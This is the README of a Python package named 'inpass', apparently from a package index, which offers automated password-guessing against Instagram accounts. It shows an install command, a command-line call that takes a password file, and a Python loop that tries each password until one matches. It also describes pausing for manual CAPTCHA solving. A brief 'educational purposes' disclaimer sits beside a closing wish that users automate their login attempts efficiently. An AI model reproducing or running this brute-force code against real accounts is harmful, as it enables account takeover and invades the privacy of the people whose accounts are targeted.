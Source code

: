 #  inpass 1.0.1

`inpass` is a Python package designed for automated login attempts on Instagram. This package can help automate the login process using multiple passwords, handle CAPTCHA challenges, and track URL changes during login attempts.

## Features

- Automated login attempts for Instagram.
- Handles CAPTCHA challenges by pausing and allowing manual resolution.
- Tracks URL changes during the login process.
- Command-line interface (CLI) and programmatic usage supported.

## Installation

You can install the package using `pip`:

```bash
pip install inpass
```

## Usage

### Command-line Interface
- You can use the inpass package directly from the command line. Here’s how:
```bash
inpass --username your_username --password-file passwords.txt
```

### Programmatic Usage
- You can also use the inpass package programmatically in your Python scripts. Below is an example:

```python
import time
import inpass

username = "your_username"
password_file = "passwords.txt"

with open(password_file, 'r') as file:
    passwords = file.read().splitlines()

for password in passwords:
    if inpass.login(username, password):
        print(f"Password match: {password}")
        break
    else:
        print(f"Password {password} not matching")
    time.sleep(1)
else:
    print("All passwords failed.")
```
## License
This project is licensed under the MIT License. See the LICENSE file for details.

### Acknowledgments
Thank you to all the contributors and users who have supported the development of this project.

#### Disclaimer
This package is intended for educational and research purposes only. The author is not responsible for any misuse of this software.

- Thank you for using inpass. We hope it helps you automate your login attempts efficiently.
